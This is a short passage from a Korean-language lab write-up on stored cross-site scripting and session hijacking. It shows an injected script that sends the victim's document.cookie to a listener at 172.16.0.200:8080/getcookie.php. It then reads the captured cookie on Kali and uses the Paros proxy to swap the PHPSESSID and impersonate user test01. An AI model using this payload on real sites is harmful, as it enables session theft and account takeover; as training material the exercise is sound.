

```
</img><script>i.src="http://172.16.0.200:8080/getcookie.php?cookie="+document.cookie</script>
```

<br>

2003 -> test01로 접속하여 게시글 확인



<br>

kali -> 확인

```
vim /tmp/cookie.dat
```



<br>

XP 에서 paros 를 이용하여 PHPSSESID 를 변조하여 다른 사용자로 변신!!!




test02의 닉네임은 kh였지만 phpssesionID를 얻어서 그것을 이용해 페이지를 이동하여 test01의 닉네임이 나왔습니다.

<br>

진행 방식



이런 식으로 진행되는 과정 이였습니다.

<br>
